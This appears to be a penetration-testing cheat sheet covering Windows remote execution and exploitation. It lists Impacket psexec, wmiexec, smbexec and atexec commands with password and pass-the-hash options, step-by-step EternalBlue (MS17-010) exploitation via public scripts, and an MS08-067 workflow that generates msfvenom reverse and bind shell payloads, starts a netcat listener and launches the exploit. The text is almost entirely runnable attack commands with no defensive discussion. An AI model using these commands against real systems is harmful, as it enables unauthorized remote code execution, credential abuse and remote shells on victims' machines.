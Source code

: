 ```
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
```

### EternalBlue (MS17-010)

```
https://github.com/3ndG4me/AutoBlue-MS17-010
```

#### Check if vulnerable

```
python eternal_checker.py <IP>
```

#### Prepare shellcodes and listeners

```
cd shellcode
./shell_prep.sh
cd ..
./listener_prep.sh
```

#### Exploit

```
python eternalblue_exploit<NUMBER>.py <IP> shellcode/sc_all.bin

May need to run it multiple times
```

#### If this doesn't work, try this one

```
python zzz_exploit.py <IP>
```

### MS08-067

```
# Download exploit code
git clone https://github.com/andyacer/ms08_067.git

# Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
msfvenom -p windows/shell_bind_tcp RHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

# Modify
Modify ms08_067_2018.py and replace the shellcode variable by the one generated with msfvenom.

# Listener
nc -lvp <PORT>

# Exploit
python ms08_067_2018.py <IP> <NUMBER> 445
```